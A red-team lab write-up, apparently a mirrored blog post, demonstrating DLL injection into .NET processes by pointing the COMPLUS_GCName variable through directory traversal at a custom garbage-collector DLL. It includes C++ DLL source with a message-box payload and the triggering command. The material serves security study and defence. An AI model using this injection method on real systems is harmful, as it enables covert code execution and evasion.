 ```yaml
---
layout: post
title: "2024-06-18-injecting dll via custom .net garbage collector environment variable complus_gcname"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /injecting-dll-via-custom-.net-garbage-collector-environment-variable-complus_gcname/
---
```


# DLL Injection via a Custom .NET Garbage Collector

This is a quick lab to test a DLL injection technique discovered by [@am0nsec](https://twitter.com/am0nsec), which he describes in his blogpost [https://www.contextis.com/us/blog/bring-your-own-.net-core-garbage-collector](https://www.contextis.com/us/blog/bring-your-own-.net-core-garbage-collector) - go check it out!

The idea behind this technique is that a low privileged user can specify a custom Garbage Collector (GC), that a  .NET application should use. A custom GC can be specified by setting a command shell environment variable `COMPLUS_GCName`, that points to a malicious DLL which represents a custom Garbage Collector.

{% hint style="warning" %}
Normally, specifying a custom GC requires administartor privileges, however, since path to a custom GC in `COMPLUS_GCName` is not sanitized when a custom GC is loaded, directory traversal allows **any** unprivileged user to specify a custom GC to be loaded from an arbitrary location to which they can drop their DLL.
{% endhint %}

The Gargage Collector DLL needs to export `GC_VersionInfo` method for this technique to work - this is the method that will contain our payload, that will be executed once a .NET program starts and loads our custom GC DLL.

## Execution

Let's create a DLL that represents a custom Garbage Collector. It needs to export a function `GC_VersionInfo`, which in our case executes a simple message box:

```cpp
#include <Windows.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

struct VersionInfo
{
    UINT32 MajorVersion;
    UINT32 MinorVersion;
    UINT32 BuildVersion;
    const char* Name;

};

extern "C" __declspec(dllexport) void GC_VersionInfo(VersionInfo * info)
{
    info->BuildVersion = 0;
    info->MinorVersion = 0;
    info->BuildVersion = 0;
    MessageBoxA(NULL, "Injection", "Injection", 0);
}
```

Once the DLL is compiled, we can set the `COMPLUS_GCName` environment variable in our cmd.exe shell and point it to the compiled DLL:

```
set COMPLUS_GCName=..\..\..\..\..\..\..\..\..\..\..\..\..\labs\GarbageCollector\GC\x64\Release\GC.dll & dotnet.exe -h
```

We can execute any .NET binary found on the system and it will load our GC.dll. In this lab, we do:

```
dotnet.exe -h
```

Below shows that our GC.dll got injected into the dotnet.exe:

![](<../../.gitbook/assets/image (571).png>)

## References

{% embed url="https://www.contextis.com/us/blog/bring-your-own-.net-core-garbage-collector" %}
@spotheplanet
